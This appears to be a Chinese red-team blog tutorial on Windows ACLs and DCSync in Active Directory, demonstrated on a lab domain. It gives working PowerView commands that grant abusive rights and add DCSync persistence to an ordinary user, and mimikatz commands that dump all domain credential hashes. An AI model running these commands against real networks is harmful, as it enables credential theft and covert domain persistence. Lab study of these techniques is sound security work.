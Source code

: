 ```yaml
---
layout:     post
title:    域渗透-Windows下的访问控制列表及DCSync
subtitle:  ACL及域内权限维持DCSync
date:       2021-02-07
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 域渗透-Windows下的访问控制列表及DCSync

## Access Control List介绍
简单来说，访问控制，是指某主体对某实体执行读取、写入、删除、更改等某种操作是否被允许，在Windows中，通常主体是进程，客体可能是文件、目录、管道、服务、注册表、打印机、共享等。访问控制即对对应的访问行进行判断是否具有合法权限执行相应的操作。Windows操作系统会为访问行为的主体创建访问令牌，且当访问行为的实体被创建时操作系统会为其创建一个安全描述符，ACL对权限的访问控制正是通过访问令牌和安全描述符来完成的。  
这里提下安全描述符的概念：   
当一个对象被创建时，系统将为其分配安全描述符，安全描述符包含了该对象的属主对该对象所配置的一些安全属性和策略，安全描述符由4部分组成，包含SID（标识该对象拥有的SID），DACL（该对象的访问控制策略），SACL（该对象的访问行为的审计策略）、Flag；其中几个重要的概念：   
- DACL：Discretionary Access Control List，用来表示安全对象权限的列表
- SACL：System Access Control List，用来记录对安全对象访问的日志  
- ACE： Access Control Entry，ACL中的元素  

## 查看ACL
通过文件属性进行查看，查看对应文件（文件夹）的高级安全设置，其中权限项就是DACL，审核项就是SACL，DACL中的内容就是ACE。  
![](/img/210207_DACL.png)  
每条ACE可以查看详情，查看具体具有的操作权限。  
![](/img/210207_ACE.png)  
同样的可以通过命令行查看指定文件的ACL。  
```
icacls Path
```  
![](/img/210207_icacls.png)  
其中：  
(OI) - 对象继承，(CI) - 容器继承，(IO) - 仅继承，(GR) - 一般性读取，(GW) - 一般性写入，(GE) - 一般性执行。   

也可以通过powershell查看：  
```
$acl = Get-Acl -Path Path
$acl.Access
```
![](/img/210207_psacl.png)  
当然建议也可以用PowerView。  
常用命令：  
```
Get-DomainObjectAcl -Domain de1ay.com  //获取指定域内所有对象的ACL
Get-DomainUser testa                   //获取指定用户的ACL
Add-DomainObjectAcl -TargetIdentity testb -PrincipalIdentity testa -Rights All -Verbose //testa对testb有完全控制权限
Remove-DomainObjectAcl -TargetIdentity testb -PrincipalIdentity testa -Rights All -Verbose  //移除对应完全控制权限
```
## 实际利用
域内常见的可利用的ACL：  
- GenericAll ：拥有一个可以完全控制用户/组的权限。
- GenericWrite ：此权限能够更新目标对象的属性值。
- WriteProperty ：这个权限利用针对的对象为组对象，能够赋予账户对于某个组的可写权限。
- WriteDacl ：攻击者可以添加或删除特定的访问控制项，从而使他们可以授予自己对对象的完全访问权限。

快速查看域内拥有WriteProperty权限的账户：  
```
Get-DomainObjectAcl | Where-Object {$_.ActiveDirectoryRight -eq "WriteProperty"}
```
![](/img/210207_writeproperty.png)  
测试一个修改密码的案例。  
新建一个testb的普通域账户，通过赋予testa对testb的完全控制权限，来用testa修改testb账户密码。  
```
Add-DomainObjectAcl -TargetIdentity testb -PrincipalIdentity testa -Rights All -Verbose
```  
![](/img/210207_addacl.png)  
此时用testa来修改testb的密码，发现可以成功修改，而再此之前是不可以的。  
![](/img/210207_changepwd.png)  
更多的操作可以看文章2，这里不再赘述。  


## DCSync
DCSync是利用DRS(Directory Replication Service)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据，常用导出域内用户hash，也用来作为域权限维持。  
前提是拥有以下任一用户的权限：   
- Administrators组内的用户
- DA组内的用户
- EA组内的用户
- 域控制器的计算机帐户

## 实际利用
直接通过mimikatz或者powershell导出即可，这里只演示mimikatz。  
```
mimikatz.exe "lsadump::dcsync /domain:de1ay.com /all /csv" exit
mimikatz.exe "lsadump::dcsync /domain:de1ay.com /user:username /csv" exit  //导出指定用户的hash
```
在拥有域控权限下，直接可以导出。我这里是通过伪造的金票，才可以用testa导出的。    
![](/img/210207_DCSync.png)  

## 利用DCSync进行权限维持
前提是拥有以下任一用户的权限：  
- DA组内的用户
- EA组内的用户

利用原理：   
向域内的一个普通用户添加如下三条ACE(Access Control Entries)：  
- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限。   
直接可以利用PowerView来完成对应的操作。  
```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose

```
![](/img/210207_dcsyncac.jpg)   
添加完后，在testa的权限下调用cmd执行对应命令即可导出域内hash。  

## 总结
简单介绍了ACL的概念以及一些基础的应用，通过两个简单的案例学习了PowerView的一些基础用法。  
感谢各作者分享的经验。  

## 参考
[https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/)    
[https://422926799.github.io/posts/be9dae0a.html](https://422926799.github.io/posts/be9dae0a.html)   













